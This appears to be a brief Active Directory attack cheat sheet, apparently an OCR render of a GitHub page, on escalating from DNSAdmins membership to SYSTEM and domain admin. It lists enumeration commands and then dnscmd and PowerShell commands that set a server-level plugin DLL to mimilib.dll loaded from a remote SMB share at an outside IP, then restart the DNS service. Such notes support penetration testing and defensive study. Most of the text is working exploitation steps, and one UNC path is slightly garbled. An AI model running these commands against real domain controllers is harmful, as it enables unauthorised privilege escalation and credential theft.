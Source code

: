 - DNSAdmins group member can load arbitrary DLLs with the privilege of the process called dns.exe. dns.exe runs as SYSTEM.
- If domain controlles in also running a DNS server, it can be abused to gain domain admin.
# Enumeration
- Powerview
```powershell
Get-NetGroupMember -GroupName "DNSAdmins"
```
- Active Directory Module
```powershell
Get-ADGroupMember -Identity DNSAdmins
```
# Exploitation
- Once, a member of this group is compromised, dnscmd.exe can be used (from RSAT DNS) to load the DLL.
```powershell
dnscmd <dc> /config /serverlevelplugindll \\172.16.50.100\dll\mimilib.dll
```
- Using powershell to do the same (also requires RSAT DNS)
```powershell
$dnsettings = Get-DnsServerSetting -ComputerName <dc-name> -Verbose -All
$dnsettings.ServerLevelPluginDll = "\172.50.50.100\dll\mimilib.dll"
Set-DnsServerSetting -InputObject $dnsettings -ComputerName <dc> -Verbose
```
- Restart the DNS server
```powershell
sc \\<dc> stop dns
sc \\<dc> start dns
```